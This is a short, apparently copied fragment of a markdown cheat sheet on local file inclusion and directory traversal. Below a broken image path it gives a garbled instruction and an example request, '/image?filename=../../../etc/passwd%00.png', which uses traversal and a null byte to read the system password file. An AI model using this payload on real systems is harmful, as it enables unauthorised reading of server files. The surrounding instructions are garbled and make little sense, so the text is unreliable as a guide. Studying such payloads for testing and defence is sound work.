 # LFI
### Directory traversal or File path traversal
replaze lfi payloads:

%00index.html
to
EJP:
```bash
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```

